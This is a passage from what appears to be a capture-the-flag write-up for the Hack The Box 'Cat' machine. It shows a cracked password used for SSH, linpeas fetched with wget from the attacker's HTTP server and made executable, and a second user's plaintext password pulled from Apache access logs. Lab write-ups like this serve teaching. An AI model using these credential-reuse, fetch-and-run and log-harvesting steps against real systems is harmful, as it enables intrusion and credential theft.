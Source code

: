 Now, let's attempt to crack some of the hashes we obtained.

![rosa-hash](../../img/Cat/rosa-hash.png)

The hash for user `rosa` appears in the [crackstation](https://crackstation.net/) database. Let's try to log into the victim machine via `SSH` using these credentials.

```
ssh rosa@cat.htb
rosa@cat.htb's password: soyunaprincesarosa
```

We successfully authenticated as `rosa`. To escalate privileges, we will use the [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a) tool.

We will upload it to the machine by hosting an `HTTP` server using Python.

```
python3 -m http.server 80
```

From the victim machine:

```
wget http://10.10.14.191/linpeas.sh
chmod +x linpeas.sh
```

Among the results, one section stands out as particularly interesting since it shows that we can read Apache logs, which may expose login credentials or other sensitive data sent by users.

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
```

```
/var/log/apache2/access.log
```

Inside the file, we find the following line:

```
"GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1"
```

We will attempt to authenticate using these new credentials:
